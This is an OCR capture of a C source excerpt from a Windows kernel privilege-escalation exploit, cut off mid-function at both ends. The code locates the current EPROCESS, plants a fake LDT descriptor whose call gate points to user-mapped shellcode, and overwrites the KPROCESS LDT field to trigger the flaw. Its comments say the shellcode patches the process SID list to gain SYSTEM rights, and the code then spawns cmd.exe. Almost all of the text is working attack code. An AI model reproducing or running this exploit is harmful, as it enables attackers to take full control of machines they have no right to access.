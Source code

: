```
 PVOID ReturnFromGateArea = NULL;
 PCALL_GATE32 pGate = NULL;

 // User standard SIDList Patch
 FARPROC KernelPayload = (FARPROC)UserShellcodeSIDListPatchCallGate;

 // Retrieve the KPROCESS Address == EPROCESS Address
 kprocess = FindCurrentEPROCESS();
 if(!kprocess)
  return FALSE;

 // Address of LDT Descriptor
 // kd> dt nt!_kprocess
 kprocessLDTDesc = (PBYTE)kprocess + LDT_DESC_FROM_KPROCESS;
 printf("[--] kprocessLDTDesc found at: %p\n", kprocessLDTDesc);

 // Create a new LDT entry
 if(!SetLDTEnv())
  return FALSE;

 // Fixup the Gate Payload (replace 0x41414141 by the address of the kernel payload)
 // and put it into executable memory
 RtlCopyMemory(ReturnFromGate + OFFSET_SHELLCODE, &KernelPayload, sizeof(FARPROC));
 ReturnFromGateArea = CreateUspaceExecMapping(1);
 RtlCopyMemory(ReturnFromGateArea, ReturnFromGate, sizeof(ReturnFromGate));

 // Build the Call-Gate(system descriptor), we pass the address of the shellcode
 pGate = CreateUspaceMapping(1);
 PrepareCallGate32(pGate, (PVOID)ReturnFromGateArea);

 // Build the fake LDT Descriptor with a Call-Gate (the one previously created) 
 PrepareLDTDescriptor32(pLDTDesc, (PVOID)pGate);

 printf("[--] LDT Descriptor fake: 0x%llx\n", LDTDescStorage32);

 // Trigger the vulnerability: overwrite the LdtDescriptor field in KPROCESS
 OverwriteGDTEntry(LDTDescStorage32, kprocessLDTDesc);

 // We force a process context switch
 // Indeed, the LDT segment descriptor into the GDT is updated only after a context 
 // switch. So, it's needed before being able to use the Call-Gate
 Sleep(1000);

 // Trigger the call gate via a FAR CALL (see assembly code)
 FarCall();

 return TRUE;
}


// This is where we begin ... ------------------------------------------------
BOOL TriggerOverwrite32_LDTRemappingWay() {

 // Load the Kernel Executive ntoskrnl.exe in userland and get some symbol's kernel address
 if(LoadAndGetKernelBase() == FALSE)
  return FALSE;

 // We exploit the vulnerability with a payload that patches the SID list to get 
 // SYSTEM privilege and then we spawn a shell if it succeeds
 if(LDTDescOverwrite32() == TRUE) {
  if (CreateChild(_T("C:\\WINDOWS\\SYSTEM32\\CMD.EXE")) != TRUE) {
   wprintf(L"Error: unable to spawn process, Error: %d\n", GetLastError());
   return FALSE;
```